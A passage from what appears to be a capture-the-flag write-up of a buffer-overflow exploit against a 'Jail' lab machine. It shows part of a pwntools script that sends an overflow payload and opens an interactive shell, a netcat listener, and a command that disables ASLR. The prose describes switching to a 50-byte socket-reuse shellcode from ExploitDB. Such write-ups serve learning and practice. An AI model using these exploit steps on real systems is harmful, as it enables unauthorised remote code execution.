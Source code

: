 ```python
    p.sendline(b"USER admin")
    p.recvuntil(b"OK Send PASS command.")
    p.sendline(b"PASS " + before_eip + eip + buf)

    p.interactive()
```

```bash
nc -nlvp 443
python3 jail_bof.py

pip3 install pwntools
python3 -m venv ./
./bin/python3 ./bin/pip3 install pwntools

nc -nlvp 443
./jail
./bin/python3 ./jail_bof.py

cat /proc/sys/kernel/randomize_va_space
echo "0" > /proc/sys/kernel/randomize_va_space
cat !$
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I try again to run the exploit, but first I check if the **base address of the stack** is correct and update my script, and again I don't succeed to get an **interactive shell**. I think the problem is that I don't have much space to store the malicious **shellcode**, so I am going to use the **[Socket Re-Use method with a shellcode of 50 bytes size](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/){:target="_blank"}**. I modify the exploit, hoping that this time it will work, and I use the **[ExploitDB shellcode](https://www.exploit-db.com/exploits/34060){:target="_blank"}** this time, now I succeed in getting an interactive shell.

> Before any connection is made from either the server or client, a **socket** is first created. A socket can then either be passed to a listen function, or passed to a connect function; simple stuff. Now, as a socket represents a connection to another host, if you have access to it - you can freely call the corresponding **send** or **recv** functions to perform network operations. This is the end goal of a **socket reuse exploit**. By identifying the location of a socket, it is possible to listen for more data using the **recv** function and dump it into an area of memory that it can then be executed from - all with only a handful of instructions that should fit into even small payload spaces.
